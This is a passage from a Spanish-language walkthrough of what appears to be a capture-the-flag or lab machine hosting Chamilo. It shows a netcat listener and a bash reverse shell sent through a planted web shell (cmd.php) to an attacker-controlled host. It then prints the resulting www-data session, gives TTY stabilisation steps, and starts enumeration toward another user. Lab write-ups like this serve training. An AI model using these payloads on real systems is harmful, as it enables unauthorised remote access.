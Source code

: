 Vemos que esta funcionando, por lo que vamos a generarnos una `reverse shell`.

## Escalate user www-data

Vamos a ponernos a la escucha antes:

```shell
nc -lvnp <PORT>
```

Ahora dentro de la `URL` vamos a poner lo siguiente ajustado a nuestras necesidades:

```
URL = http://chamilo.dl/app/cache/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/<IP>/<PORT> 0>%261'
```

Cuando enviemos eso en la `URL` si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.1.146] from (UNKNOWN) [172.17.0.2] 49944
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@63a7ae251022:/var/www/chamilo.dl/app/cache$ whoami
whoami
www-data
```

Vemos que seremos dicho usuario, por lo que vamos a sanitizar la `shell`.

### Sanitizacion de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user trr0r

Si vemos los puertos/IPs que se estan corriendo en la maquina victima:

```shell
netstat -tuln
```
